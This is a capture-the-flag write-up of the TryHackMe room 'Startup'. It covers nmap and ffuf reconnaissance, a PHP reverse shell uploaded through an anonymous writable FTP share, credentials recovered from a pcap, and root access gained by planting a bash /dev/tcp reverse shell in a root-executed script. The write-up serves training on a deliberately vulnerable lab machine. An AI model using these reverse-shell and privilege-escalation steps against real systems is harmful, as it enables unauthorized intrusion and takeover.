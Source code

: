 ```yaml
---
title: "Startup Writeup THM"
description: "My writeup of the TryHackMe room [Startup](https://tryhackme.com/room/Startup)"
date: 2024-01-07
image: https://raw.githubusercontent.com/Blueaulo/Startup-writeup-THM/main/91426f10-815e-4dce-8275-a7e4a86904b0_Export-603ed8d9-2b1a-49ce-8213-7061cce6ff07/Startup%2009519d3a5bfc4be5bd4c3ca84ece9361/Untitled.png
math:
license:
hidden: false
comments: true
draft: false
tags:
    - Linux
    - Privilege Escalation
categories:
    - Room
    - Easy
---
```


I will start with a nmap scan:

```bash
nmap -sC -sV 10.10.107.18

Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-01-04 15:17 EST
Nmap scan report for 10.10.107.18
Host is up (0.062s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to 10.11.65.91
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| drwxrwxrwx    2 65534    65534        4096 Nov 12  2020 ftp [NSE: writeable]
| -rw-r--r--    1 0        0          251631 Nov 12  2020 important.jpg
|_-rw-r--r--    1 0        0             208 Nov 12  2020 notice.txt
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 b9:a6:0b:84:1d:22:01:a4:01:30:48:43:61:2b:ab:94 (RSA)
|   256 ec:13:25:8c:18:20:36:e6:ce:91:0e:16:26:eb:a2:be (ECDSA)
|_  256 a2:ff:2a:72:81:aa:a2:9f:55:a4:dc:92:23:e6:b4:3f (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Maintenance
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

First of all we see that in the ftp server allows Anonymous login and that there are 2 file in it.

I will start with that:

```bash
ftp 10.10.107.18

Connected to 10.10.107.18.
220 (vsFTPd 3.0.3)
Name (10.10.107.18:kali): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||56482|)
150 Here comes the directory listing.
drwxrwxrwx    2 65534    65534        4096 Nov 12  2020 ftp
-rw-r--r--    1 0        0          251631 Nov 12  2020 important.jpg
-rw-r--r--    1 0        0             208 Nov 12  2020 notice.txt
226 Directory send OK.
```

```bash
cat notice.txt

Whoever is leaving these damn Among Us memes in this share, it IS NOT FUNNY. People downloading documents from our website will think we are a joke! Now I dont know who it is, but Maya is looking pretty sus.
```

We now have a name, Maya.

The site doesn’t tell us much:

![Untitled](https://raw.githubusercontent.com/Blueaulo/Startup-writeup-THM/main/91426f10-815e-4dce-8275-a7e4a86904b0_Export-603ed8d9-2b1a-49ce-8213-7061cce6ff07/Startup%2009519d3a5bfc4be5bd4c3ca84ece9361/Untitled.png)

So I started a directory fuzzer:

```bash
ffuf -u http://10.10.107.18/FUZZ -w /usr/share/wordlists/dirb/big.txt

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.107.18/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/big.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

.htaccess               [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 59ms]
.htpasswd               [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 2807ms]
files                   [Status: 301, Size: 312, Words: 20, Lines: 10, Duration: 172ms]
server-status           [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 66ms]
:: Progress: [20469/20469] :: Job [1/1] :: 357 req/sec :: Duration: [0:00:44] :: Errors: 0 ::
```

I discovered the files directory which is the ftp share:

Maybe we can upload a php revshell with ftp.

We have write access in the ftp folder:

```bash

ftp> cd ftp
250 Directory successfully changed.
ftp> put php.php
local: php.php remote: php.php
229 Entering Extended Passive Mode (|||40969|)
150 Ok to send data.
100% |***************************************************************************************************|  3461       70.22 MiB/s    00:00 ETA
226 Transfer complete.
3461 bytes sent in 00:00 (6.92 KiB/s)
ftp>
```

I uploaded my pentester monkey php reverse shell



```bash
nc -lvnp 4444

listening on [any] 4444 ...
connect to [10.11.65.91] from (UNKNOWN) [10.10.107.18] 40798
Linux startup 4.4.0-190-generic #220-Ubuntu SMP Fri Aug 28 23:02:15 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 20:52:55 up 37 min,  0 users,  load average: 0.00, 0.05, 0.01
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$
```

And we got a shell!

```bash
which python
/usr/bin/python
python -c 'import pty; pty.spawn ("/bin/bash")'
www-data@startup:/$
```

I also spawned a nicer shell with the help of python.

apart from the recipe, in the home directory there are also a vagrant directory, which appears to be a home directory, and an incidents directory:

```bash
ls

bin   home            lib         mnt         root  srv  vagrant
boot  incidents       lib64       opt         run   sys  var
dev   initrd.img      lost+found  proc        sbin  tmp  vmlinuz
etc   initrd.img.old  media       recipe.txt  snap  usr  vmlinuz.old
```

In the incidents there is a pcapng file which we can read with wireshark, I downloaded the file uploading it in the ftp directory:

```bash
cp suspicious.pcapng /var/www/html/files/ftp
```

From here I looked up the traffic and found out that lennie, tried to login with his credentials with the www-data account:

```bash
Sorry, try again.
[sudo] password for www-data: <redacted>
```

So I tried logging in and it worked:

```bash
www-data@startup:/incidents$ su lennie
Password: <redacted>

lennie@startup:/incidents$
```

I then grabbed the user flag, and discovered a file in the etc folder that I owned that it was executed from root, I edited it with this and got a root shell:

```bash
#!/bin/bash
bash -i >& /dev/tcp/10.11.65.91/5555 0>&1
```
